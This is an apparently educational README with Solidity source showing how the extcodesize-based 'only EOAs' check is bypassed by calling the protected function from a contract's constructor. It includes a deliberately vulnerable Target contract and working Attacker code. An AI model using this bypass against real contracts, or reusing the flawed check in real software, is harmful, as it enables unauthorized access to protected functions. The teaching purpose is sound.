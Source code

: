 # Attack Example: Bypassing Contract Check in Solidity

This folder contains an example of how to bypass a contract check in Solidity. 
The example demonstrates a common security vulnerability where a contract attempts to restrict function access 
to only externally owned accounts (EOAs) and shows how this restriction can be circumvented.

## Files

- **Target.sol**: The contract containing the protected function that only EOAs can call.
- **TryAttack.sol**: A contract demonstrating a failed attempt to call the protected function.
- **Attacker.sol**: A contract demonstrating a successful method to bypass the EOA check.

## Contracts Overview

### Target Contract

The `Target` contract includes:
- A `passed` boolean variable to indicate if the protected function was called successfully.
- An `isContract` function to check if an address belongs to a contract.
- A `autorizationToPass` function that only EOAs can call. If a contract calls this function, the call will fail.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract Target {
    bool public passed; 

    function isContract(address _account) public view returns (bool) {
        uint256 length;
        assembly {
            length := extcodesize(_account) 
        }
        return length > 0; 
    }

    function autorizationToPass() external {
        require(!isContract(msg.sender), "No contract autorizationToPass!");
        passed = true; 
    }
}
```

### TryAttack Contract

The `TryAttack` contract demonstrates an unsuccessful attempt to call the `autorizationToPass` function in the `Target` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract TryAttack {
    function tryPass(address _target) external {
        Target(_target).autorizationToPass();
    }
}
```

### Attacker Contract

The `Attacker` contract successfully bypasses the `isContract` check in the `Target` contract. It does so by calling the `autorizationToPass` function during its constructor execution, at which point the `extcodesize` is zero.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract Attacker {
    bool public isContract; 
    address public account; 

    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        account = address(this);
        Target(_target).autorizationToPass();
    }
}
```

## Usage

1. **Deploy the `Target` Contract**: Deploy the `Target` contract on your preferred Ethereum test network.

2. **Attempt the Attack with `TryAttack` Contract**:
    - Deploy the `TryAttack` contract.
    - Attempt to call the `tryPass` function with the address of the `Target` contract.
    - The call will fail, demonstrating that the `autorizationToPass` function cannot be called by another contract directly.

3. **Successful Attack with `Attacker` Contract**:
    - Deploy the `Attacker` contract, passing the address of the `Target` contract to its constructor.
    - The `Attacker` contract will successfully call the `autorizationToPass` function during its creation, bypassing the contract check.

## Conclusion

This example illustrates how a contract can be vulnerable to attacks that bypass restrictions meant to limit function access to EOAs. 
The `Attacker` contract demonstrates a common technique where the `extcodesize` check can be circumvented during the contract's construction phase. Proper security measures should be implemented to mitigate such vulnerabilities.

## Author

- **Yaghoub Adelzadeh**
- **GitHub**: [dappteacher](https://www.github.com/dappteacher)

## License

This project is licensed under the MIT License.
```

This README provides a clear and comprehensive overview of the contracts, their purposes, and how to use them 
to understand the attack example.
